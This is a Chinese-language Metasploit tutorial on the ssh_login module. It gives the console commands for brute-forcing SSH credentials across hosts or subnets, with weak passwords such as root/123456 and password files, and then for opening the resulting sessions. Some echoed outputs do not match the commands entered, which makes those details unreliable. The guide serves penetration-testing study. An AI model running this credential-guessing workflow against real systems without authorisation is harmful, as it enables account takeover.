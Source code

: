 #+TITLE: SSH_LOGIN 扫描登录辅助模块
#+DATE: 2018-07-02
#+AUTHOR: Siqing Mu

*** 简介

ssh_login该模块是渗透测试框架MSF(MetaSploit)框架下常用的一个工具，它可以针对单个IP或者一组IP进行暴力破解。
#+BEGIN_EXAMPLE
➜  ~ msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v4.16.64-dev-c1c6dc0d8516dbdecca04f17e41f48148f648f18]
+ -- --=[ 1777 exploits - 1018 auxiliary - 308 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > show options
#+END_EXAMPLE

*** 使用

我们可以根据查看选项设置(show options)，这里我们可能需要一些必要设置项
比如：我们需要设置扫描的IP或者IP段，可以这样设置：
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.0.1
#+END_EXAMPLE
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.0.1/24
#+END_EXAMPLE

我们可以设置指定的用户名和密码，也可以引入弱口令密码表。
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set USERNAME root
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS 123456
#+END_EXAMPLE
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE ~/pwd.txt
#+END_EXAMPLE
但如果需要用公私钥登录需要切换至ssh_login_pubkey模块，
#+BEGIN_SRC 
msf auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/ssh/ssh_login_pubkey
#+END_SRC
具体配置项可以 show options, 这里不再赘述：
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login_pubkey) > set KEY_FILE ~/.ssh/id_rsa
#+END_EXAMPLE

我们也可以设置并发线程数:
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set THREADS 10
#+END_EXAMPLE

也可以设置是否打印输出：
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
#+END_EXAMPLE

设置完成后即可运行：
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login) > run
#+END_EXAMPLE

扫描完后，我们可以看sessions或hosts
#+BEGIN_EXAMPLE
msf auxiliary(scanner/ssh/ssh_login_pubkey) > sessions -i 1
msf auxiliary(scanner/ssh/ssh_login_pubkey) > hosts
#+END_EXAMPLE

*** 最后

如果你第一次使用，在安装完MSF框架后，需要设置一个postgresql数据库：
安装不说了，注意查看是否开启：
#+BEGIN_EXAMPLE
systemctl start postgresql
#+END_EXAMPLE
mac上查看
#+BEGIN_EXAMPLE
brew services start postgresql
#+END_EXAMPLE

在命令后下初始化一个数据库：
#+BEGIN_EXAMPLE
➜  ~ msfdb init
#+END_EXAMPLE
进入MSF框架查看是否连接成功
#+BEGIN_EXAMPLE
msf > db_status
#+END_EXAMPLE
查看工作区
#+BEGIN_EXAMPLE
msf > workspace
#+END_EXAMPLE
创建工作区
#+BEGIN_EXAMPLE
msf > workspace -a xxx
#+END_EXAMPLE
切换工作区
#+BEGIN_EXAMPLE
msf > workspace xxx
#+END_EXAMPLE
删除工作区
#+BEGIN_EXAMPLE
msf > workspace -d xxx
#+END_EXAMPLE
其他可以查看帮助
#+BEGIN_EXAMPLE
msf > workspace -h
#+END_EXAMPLE
#+BEGIN_EXAMPLE
msf > help
#+END_EXAMPLE
导入和扫描
#+BEGIN_EXAMPLE
msf > db_import /root/msfu/nmapScan
#+END_EXAMPLE
#+BEGIN_EXAMPLE
msf > db_nmap -A 172.16.194.134
#+END_EXAMPLE
备份
#+BEGIN_EXAMPLE
msf > db_export -h
#+END_EXAMPLE
hosts 命令
#+BEGIN_EXAMPLE
msf > hosts -c address,os_flavor
#+END_EXAMPLE

*** 参考
#+BEGIN_SRC 
SRC0:https://www.offensive-security.com/metasploit-unleashed/using-databases/
SRC1:https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/
#+END_SRC

